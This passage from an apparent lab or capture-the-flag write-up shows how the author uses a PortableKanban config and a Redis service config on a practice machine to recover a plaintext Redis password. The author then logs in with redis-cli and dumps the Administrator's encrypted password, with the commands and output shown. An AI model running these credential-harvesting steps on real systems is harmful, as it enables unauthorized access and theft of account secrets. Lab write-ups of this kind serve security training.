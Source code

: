 Right at the front is this part (whitespace added):

```

"DataSource":"RedisServer",
"DbServer":"localhost",
"DbPort":6379,
"DbEncPassword":"Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb"

```

The program is using Redis rather than local storage, and there is a Redis server on this host!

#### Redis

I suspect I could try to decrypt that password stored in the PortableKanban config, but looking around in the Redis directory, there’s a config there as well, and printing it (using `select-string` to remove comments and then remove blank lines):

```

PS C:\Program Files\redis> type redis.windows-service.conf | select-string -pattern "^#" -NotMatch | select-string .
requirepass kidvscat_yes_kidvscat      
port 6379                                     
tcp-backlog 511                              
timeout 0
tcp-keepalive 0                  
loglevel notice
logfile "Logs/redis_log.txt"
...[snip]...

```

The first line has the password.

Now with that password, I can access Redis:

```

oxdf@parrot$ redis-cli -h 10.10.10.237
10.10.10.237:6379> auth kidvscat_yes_kidvscat
OK
10.10.10.237:6379> keys *
1) "pk:ids:MetaDataClass"
2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
4) "pk:ids:User"

```

The third key there has the administrator’s information, including the encrypted password:

```
10.10.10.237:6379> get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

```

